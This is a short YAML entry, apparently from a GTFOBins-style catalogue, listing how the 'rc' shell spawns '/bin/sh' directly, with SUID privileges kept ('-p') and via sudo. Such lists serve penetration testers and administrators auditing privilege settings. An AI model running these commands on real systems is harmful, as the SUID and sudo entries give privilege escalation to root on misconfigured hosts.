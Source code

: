 ```yaml
---
functions:
  shell:
    - code: rc -c '/bin/sh'
  suid:
    - code: ./rc -c '/bin/sh -p'
  sudo:
    - code: sudo rc -c '/bin/sh'
---
```

